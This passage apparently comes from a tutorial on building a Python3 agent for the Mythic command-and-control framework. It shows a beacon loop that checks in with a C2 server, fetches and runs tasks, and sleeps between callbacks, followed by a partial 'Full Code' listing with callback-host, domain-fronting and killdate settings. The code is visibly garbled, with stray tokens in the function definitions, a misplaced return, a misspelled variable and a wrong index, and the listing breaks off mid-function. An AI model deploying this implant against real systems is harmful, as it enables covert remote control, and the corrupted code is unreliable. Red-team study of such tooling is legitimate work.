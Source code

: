 ### The Driver
Those were all the functions in the agent!  Now all that's left is to string them together to make the loop the agent runs.  
```
tasks = []				# This will hold all the tasks recieved.  It only holds one at a time right now, but as I mentioned earlier, this could be extended.

print(SendCheckin())			# Send the Check-in message first thing
while True:				# Your clasic while True loop
	print("Contacting C2")
	task = getTasks()		# Get the task from the server
	tasks.append(task)		# Add the task we got to the task list		
	if tasks[0] == None:		# If there was not a task to get,
		tasks.pop(0)		#   then pop the task, as it will be the "get tasks" task
	if len(tasks) > 0:		# After we removed that one, if we still have tasks to run,
		if runTask(tasks[0]):	# Run the first task and pop it off the list
			tasks.pop(0)
		else:
			print("Error running: " + tasks[1])
			taks.pop(0)
	time.sleep(agent["Sleep"])	# Sleep until the next callback 
			
```
And with that, we have a fully functioning Mythic Agent written in Python3 that is useable right now!  There is just no metadata for Mythic to know it's good to go though.  

### Full Code
The full picture looks like this now:  
```
import requests as rq
import socket
import platform
import os
import json
import base64
import time 
agent = {
	"Server":"callback_host",
	"Port":"callback_port",
	"URI":"/post_uri",
	"PayloadUUID":"UUID_Here",
	"UUID":"",
	"Headers":headers,
	"HostHeader":"domain_front",
	"Sleep": callback_interval,
	"Jitter":callback_jitter,
	"KillDate":"killdate",
	"Script":""
}

def PostRequest(data):
	Headers = []Ch
	for i in agent["Headers"]:
		Headers.append({i["key"]:i['value']})
	try:
		r = rq.post(agent["Server"]+agent["URI"], data, Headers)
	return r.content
	except Exception as e:
		return e

def getEncodedJson(data,uuid):Tas;k
	jsonData = json.dumps(data)
	sendData = uuid+str(jsonData)
```